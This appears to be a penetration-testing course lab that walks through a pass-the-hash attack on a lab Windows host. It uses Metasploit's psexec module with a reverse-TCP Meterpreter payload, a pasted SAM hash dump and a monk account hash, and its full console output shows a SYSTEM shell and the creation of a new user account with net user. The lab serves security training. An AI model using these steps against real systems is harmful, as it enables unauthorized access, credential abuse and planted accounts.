


Lab 4.6: Pass the Hash
Objectives
- To use a pass-the-hash attack via Metasploit’s
psexecmodule to load Meterpreter onto a target machine - To see how we can authenticate to a target Windows machine using only the hash, without using the actual password at all
Lab Setup
Ensure that you can ping 10.10.10.10 in the 560 target environment from your Slingshot Linux image.
sec560@slingshot:~$ ping 10.10.10.10
Lab – Step-by-Step Instructions
For this lab, you attack machine 10.10.10.10 using pass-the-hash to get Meterpreter access of the system using Metasploit’s psexec.
For the hashes, use a SAM hashdump file stored in the Slingshot Linux image. The account to use has a logon name of monk and a hash in the file /home/sec560/coursefiles/sam.txt.
The whole point of this lab is that you can grab LANMAN and NT hashes and use them for admin access of a target machine without even cracking them. Note that as you proceed through this lab, you never need to know what the actual value of the monk administrative-level password is. You simply use its hashed form to gain access.

Step 1: Hashes
The hashes for 10.10.10.10 are in the /home/sec560/coursefiles/sam.txt file on the Linux machine.
Start the lab by putting monk’s hash into our Linux machine’s copy-and-paste buffer. Start by displaying the hashes:
sec560@slingshot:~$ cat /home/sec560/coursefiles/sam.txt Administrator:500:A5C67174B2A219D1AAD3B435B51404EE:363DD639AD34B6C5153C0F51165AB830::: charlie:1007:380B4695FE1449EBAAD3B435B51404EE:03F9CC43288014DEE4FA4B190D9CA948::: dizzy:1008:3EACDEE7E4395079BE516DA459FE4E65:1274D7B32A9ABDDA01A5067FE9FBB32B::: Guest:501:NO PASSWORD*********************:NO PASSWORD*********************::: IUSR_BETTY:1001:44BBEBA9892785E7E130321F8EE908E4:B3FCCBDD70138057477303221118715A::: IWAM_BETTY:1002:A47109F6BCCBF54BD2E55FDA509B7966:C2DA00DE320C442799D03053EFF7819D::: monk:1009:AF83DBF0052EE4717584248B8D2C9F9E:A65C3DA63FDB6CA22C172B13169D62A5::: ted:1006:09EEAB5AA415D6E4AAD3B435B51404EE:18DA6C2895C549E266745951D5DC66CB::: TsInternetUser:1000:AAC70116CB404F310EB3621B7749050D:5E20E67E47C007014D05B54ADACA11BC:::
Now, on the line with monk’s hash, select the hash (starting with AF83 and ending with 62A5), highlighting that entire string (but with no colon at the beginning or end).
Then right-click the terminal and select Copy. We’ll paste this hash into Metasploit shortly.

Step 2: Launch Metasploit
Launch the Metasploit Framework Console, as we’ve done before, and use the psexec module and set the PAYLOAD:
sec560@slingshot:~$ msfconsole
# cowsay++
____________
< metasploit >
------------
\ ,__,
\ (oo)____
(__) )\
||--|| *
=[ metasploit v5.0.34-dev-58e36b6 ]
+ -- --=[ 1902 exploits - 1072 auxiliary - 329 post ]
+ -- --=[ 550 payloads - 44 encoders - 10 nops ]
+ -- --=[ 2 evasion ]
msf5 > use exploit/windows/smb/psexec
msf5 exploit(windows/smb/psexec) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
Now see what options you need for psexec, using the show options command:
msf5 exploit(windows/smb/psexec) > show options
Module options (exploit/windows/smb/psexec):
Name Current Setting Required Description
---- --------------- -------- -----------
RHOSTS yes The target address range or
CIDR identifier
RPORT 445 yes The SMB service port (TCP)
SERVICE_DESCRIPTION no Service description to to be
used on target for pretty
listing
SERVICE_DISPLAY_NAME no The service display name
SERVICE_NAME no The service name
SHARE ADMIN$ yes The share to connect to, can
be an admin share (ADMIN$,C$
,...) or a normal read/write
folder share
SMBDomain . no The Windows domain to use
for authentication
SMBPass no The password for the
specified username
SMBUser no The username to authenticate
as
Payload options (windows/meterpreter/reverse_tcp):
Name Current Setting Required Description
---- --------------- -------- -----------
EXITFUNC thread yes Exit technique (Accepted: '', seh,
thread, process, none)
LHOST yes The listen address (an interface may be
specified)
LPORT 4444 yes The listen port
Exploit target:
Id Name
-- ----
0 Automatic
We need to set the host to connect to (RHOST), an LHOST for the reverse_tcp payload to connect back to, as well as the user to connect as (SMBUser) and a password (SMBPass). However, for the password, we’ll provide hashes (via paste).
msf5 exploit(windows/smb/psexec) > set RHOST 10.10.10.10 RHOST => 10.10.10.10 msf5 exploit(windows/smb/psexec) > set LHOST YOUR_LINUX_IP_ADDRESS LHOST => 10.10.75.102 msf5 exploit(windows/smb/psexec) > set SMBUSER monk SMBUSER => monk
Next, set the SMBPass variable to the hashes obtained earlier from the /home/sec560/CourseFiles/sam.txt file, pasting them into the shell as before. (They should still be in your copy-and-paste buffer.) Right-click and select Paste.
In brief, you'll paste something like this:
msf exploit(psexec) > set SMBPass LANMAN:NT
Here is what the output looks like:
msf5 exploit(windows/smb/psexec) > set SMBPASS AF83DBF0052EE4717584248B8D2C9F9E:A65C3DA63FDB6CA22C172B13169D62A5 SMBPASS => AF83DBF0052EE4717584248B8D2C9F9E:A65C3DA63FDB6CA22C172B13169D62A5
Run show options to confirm the settings are correct.
We need to do one more thing. At the time of this writing, there is a bug in MSF5 related to pass-the-hash and the database. We need to disconnect the database by running the following command:
msf5 exploit(windows/smb/psexec) > db_disconnect
Step 3: Exploit
Finally, run the exploit command to attack the target:
msf5 exploit(windows/smb/psexec) > exploit [*] Started reverse TCP handler on 10.10.75.102:4444 [*] 10.10.10.10:445 - Connecting to the server... [*] 10.10.10.10:445 - Authenticating to 10.10.10.10:445 as user 'monk'... [*] 10.10.10.10:445 - Selecting PowerShell target [*] 10.10.10.10:445 - Executing the payload... [+] 10.10.10.10:445 - Service start timed out, OK if running a command or non-service executable... [*] Sending stage (179779 bytes) to 10.10.10.10 [*] Meterpreter session 1 opened (10.10.75.102:4444 -> 10.10.10.10:49521) at 2019-07-09 18:32:10 +0000 meterpreter >
If your exploit fails...
Failure 1. ActiveRecord If you get an error message of Exploit failed: ActiveRecord ... Data has already been taken, that is due to a small bug in the Metasploit database feature and its interaction with credentials. You can bypass that problem by disconnecting from the database. If you see that error, please type db_disconnect and then try to exploit it again.
msf5 exploit(windows/smb/psexec) > db_disconnect Successfully disconnected from the data service: local_db_service. msf5 exploit(windows/smb/psexec) > exploit
Failure 2. Timeout
If you see the error below and do not get a Meterpreter session, then run exploit again:
... [+] 10.10.10.10:445 - Service start timed out, OK if running a command or non-service executable... [*] Exploit completed, but no session was created. msf5 exploit(windows/smb/psexec) > exploit
If the pass-the-hash attack works successfully, you should get Meterpreter access to the target machine.
If you exploit it successfully, you can use that Meterpreter prompt to interact with the target machine.
meterpreter > getuid Server username: NT AUTHORITY\SYSTEM
Step 5. Meterpreter Shell
You can now run any of the Meterpreter commands we discussed earlier in the course.
As far as Metasploit and target 10.10.10.10 are concerned, you authenticated to the machine legitimately. You just used the hash instead of the password.
meterpreter > getpid Current pid: 3152 meterpreter > ifconfig ...output truncated for brevity... Interface 12 ============ Name : Intel(R) 82574L Gigabit Network Connection Hardware MAC : 00:0c:29:ce:b4:fe MTU : 1500 IPv4 Address : 10.10.10.10 IPv4 Netmask : 255.255.0.0 ...output truncated for brevity...
Let’s use this access of the target to create an account on the machine by launching a cmd.exe shell and then using net user to create an account and set a password.
meterpreter > shell Process 3400 created. Channel 1 created. Microsoft Windows [Version 6.3.9600] (c) 2013 Microsoft Corporation. All rights reserved. C:\Windows\system32> whoami whoami nt authority\system C:\Windows\system32> net user SOME_USER_NAME SOME_PASSWORD /add The command completed successfully.
Let’s review the accounts created on the machine so far:
C:\Windows\system32> net user
To finish the lab, you can simply exit your shell, your Meterpreter session, and your msfconsole session.
C:\Windows\system32> exit exit meterpreter > exit [*] Shutting down Meterpreter... [*] 10.10.10.10 - Meterpreter session 4 closed. Reason: User exit msf5 exploit(windows/smb/psexec) > exit sec560@slingshot:~$
Conclusion
In conclusion, in this lab, you’ve authenticated to a target machine via SMB as an admin user with only that admin’s hash (not the password). You passed the hash using Metasploit’s psexec module. These techniques are highly useful for penetration testers who have retrieved hashes from a target environment and have SMB access to target Windows machines.